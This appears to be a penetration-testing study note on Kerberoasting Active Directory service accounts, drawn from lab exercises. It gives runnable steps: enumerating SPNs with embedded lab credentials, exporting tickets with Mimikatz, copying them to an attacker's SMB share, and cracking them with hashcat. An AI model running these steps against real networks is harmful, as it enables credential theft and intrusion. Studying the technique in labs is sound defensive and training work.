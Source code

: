## Extracting SPNs from kali
parameter (-k) is used for Kerberos Authentication (NTLM is used by default):
```bash
# Example 1 (with Kerberos)
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local -request
# Example 2 (with NTLM Auth)
impacket-GetUserSPNs htb.local/amanda:Ashare1972 -request
```
Examples:
[[Scramble#^ca990a]]
[[Sizzle#^e17a07]]
[[Active#^659f81]]
## Extracting SPNs from compromised machine

Recalling the explanation of the Kerberos protocol, we know that when the user wants to access a resource hosted by a SPN, the client requests a service ticket that is generated by the domain controller. The service ticket is then decrypted and validated by the application server, since it is encrypted through the password hash of the SPN.

When requesting the service ticket from the domain controller, no checks are performed on whether the user has any permissions to access the service hosted by the service principal name. These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller. Then, since it is our own ticket, we can extract it from local memory and save it to disk.

We will abuse the service ticket and attempt to crack the password of the service account.

For example, we know that the registered SPN for the Internet Information Services web server in the domain is _HTTP/CorpWebServer.corp.com_. From PowerShell, we can use the _KerberosRequestorSecurityToken_ class to request the service ticket.

The code segment we need is located inside the _System.IdentityModel_ namespace, which is not loaded into a PowerShell instance by default. To load it, we use the _Add-Type_ cmdlet with the _-AssemblyName_ argument.

First download GetUserSNPS.ps1 from Internet:
[GetUserSPNs.ps1](https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1)

Execute the .ps1 with powershell, the output will be the Service Accounts:

```powershell
PS C:\Users\nathan> C:\Users\nathan\Desktop\GetUserSPNS.ps1

ServicePrincipalName : DC01/Allison.offsec.local:5999
Name                 : Allison
SAMAccountName       : Allison
MemberOf             : 
PasswordLastSet      : 2/22/2022 10:35:56 AM

ServicePrincipalName : kadmin/changepw
Name                 : krbtgt
SAMAccountName       : krbtgt
MemberOf             : CN=Denied RODC Password Replication 
                       Group,CN=Users,DC=offsec,DC=local
PasswordLastSet      : 2/4/2022 10:29:28 AM
```

We can call the _KerberosRequestorSecurityToken_ constructor by specifying the SPN with the _-ArgumentList_ option as shown below.

```powershell
PS C:\Users\nathan\Desktop> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\nathan\Desktop> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'DC01/Allison.offsec.local:5999'
```

After execution, the requested service ticket should be generated by the domain controller and loaded into the memory of the Windows 10 client. Instead of executing Mimikatz all the time, we can also use the built-in klist command to display all cached Kerberos tickets for the current user:

```
PS C:\Users\offsec.CORP> klist

Current LogonId is 0:0x3dedf

Cached Tickets: (4)

#0>	Client: Offsec @ CORP.COM
	Server: krbtgt/CORP.COM @ CORP.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicaliz
	Start Time: 2/12/2018 10:17:53 (local)
	End Time:   2/12/2018 20:17:53 (local)
	Renew Time: 2/19/2018 10:17:53 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: DC01.corp.com

#1>	Client: Offsec @ CORP.COM
	Server: HTTP/CorpWebServer.corp.com @ CORP.COM
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_cano
	Start Time: 2/12/2018 10:18:31 (local)
	End Time:   2/12/2018 20:17:53 (local)
	Renew Time: 2/19/2018 10:17:53 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0 
	Kdc Called: DC01.corp.com
...
```

With the service ticket for the Internet Information Services service principal name created and saved to memory, we can download it from memory using either built-in APIs or Mimikatz.

To download the service ticket with Mimikatz, we use the kerberos::list command, which yields the equivalent output of the klist command above. We also specify the /export flag to download to disk as shown below.

```
mimikatz # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/02/2018 10.17.53 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53
   Server Name       : krbtgt/CORP.COM @ CORP.COM
   Client Name       : Offsec @ CORP.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forward
   \* Saved to file     : 0-40e10000-Offsec@krbtgt~CORP.COM-CORP.COM.kirbi

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/02/2018 10.18.31 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53
   Server Name       : HTTP/CorpWebServer.corp.com @ CORP.COM
   Client Name       : Offsec @ CORP.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
   \* Saved to file     : 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

According to the Kerberos protocol, the service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing (in a technique known as _Kerberoasting_), we will know the password hash, and from that we can crack the clear text password of the service account. As an added bonus, we do _not_ need administrative privileges for this attack.

Let's try this out. To perform a wordlist attack, we must first install the _kerberoast_ package with apt and then run tgsrepcrack.py, supplying a wordlist and the downloaded service ticket:

Note that the service ticket file is binary. Keep this in mind when transferring it with a tool like Netcat, which may mangle it during transfer.

```
kali@kali:~$ sudo apt update && sudo apt install kerberoast
...
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi 
found password for ticket 0: Qwerty09!  File: 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
All tickets cracked!
```

Also it can be extracted with impacket-smbserver, converted to a hash that hashcat understands and then decrypted:

Kali:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```

Victim-Machine:
```bash
copy *.kirbi \\192.168.119.248\shareFolder\*
```

Then convert the .kirbi files to hashes with kirbi2john:

```bash
kirbi2john *.kirbi > hash.txt
```

Finally extract the hashes from hash.txt and crack them with hashcat.exe (on your local machine if possible since hashcat works better if it has access to your GPU directly):
```cmd
D:\Programs\hashcat-6.2.5>hashcat.exe -m 13100 -a 0 hash.txt rockyou.txt
```

In this example we successfully cracked the service ticket and obtained the clear text password for the service account.

This technique can be very powerful if the domain contains high-privilege service accounts with weak passwords, which is not uncommon in many organizations. However, if managed or group managed service accounts are employed for the specific SPN, the password will be randomly generated, complex, and 120 characters long, making cracking infeasible.

Although this example relied on the kerberoast tgsrepcrack.py script, we could also use John the Ripper[8](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-authentication/service-account-attacks#fn8) and Hashcat[9](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-authentication/service-account-attacks#fn9) to leverage the features and speed of those tools.

The [_Invoke-Kerberoast.ps1_](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.